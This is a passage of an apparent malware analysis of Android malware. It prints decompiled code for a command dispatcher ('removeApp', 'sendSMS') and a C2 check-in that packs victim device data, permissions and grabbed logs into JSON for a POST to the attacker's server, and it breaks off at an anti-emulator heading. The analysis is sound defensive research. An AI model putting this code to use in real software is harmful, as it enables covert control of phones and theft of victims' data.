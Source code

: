 ```cs
                    }
                    case 0x4C6F0AFD: {
                        v1 = s.equals("removeApp") ? 11 : -1;
                        break;
                    }
                    case 1979901105: {
                        v1 = s.equals("sendSMS") ? 10 : -1;
                        break;
                    }
                    default: {
                        v1 = -1;
                    }
                }
```



# Communication with C2

The malware will communicate with C2 server and `POST` request with information about the victim's device.


```cs
try {
                App app0 = App.m();
                aa aa0 = aa.m();
                jSONObject0.put("botID", aa0.C);
                jSONObject0.put("statusScreen", aa0.h(app0));
                jSONObject0.put("pDoze", ((boolean)(aa.m().m(App.m()) ? 0 : 1)));
                jSONObject0.put("pDefaultSms", aa0.a(app0));
                jSONObject0.put("pDrawOverlays", Settings.canDrawOverlays(app0));
                jSONObject0.put("pOpenOverlays", aa.m().m());
                jSONObject0.put("pAccessibility", aa0.m(app0, ServiceHandler.class));
                jSONObject0.put("pNotification", aa0.M(app0));
                jSONObject0.put("pSendSMS", aa0.m(app0, "android.permission.SEND_SMS"));
                jSONObject0.put("configOverlayReopen", aa.m().a);
                jSONObject0.put("AntiDelete", ServiceHandler.m().m);
                jSONObject0.put("time_knock", aa0.I);
                jSONObject0.put("versionLib", aa0.J);
                jSONObject0.put("hash", aa0.D.getString("hash"));
                jSONObject0.put("admin_url", this.j);
                jSONObject0.put("configNotification", aa0.f);
                jSONObject0.put("configSaveSMS", aa0.l);
                jSONObject0.put("logsGrabber", b.m(App.m()).m());
                if(!jSONObject0.has("logsSniffer")) {
                    jSONObject0.put("logsSniffer", b.m(App.m()).m());
                }
```

# Anti-emulator
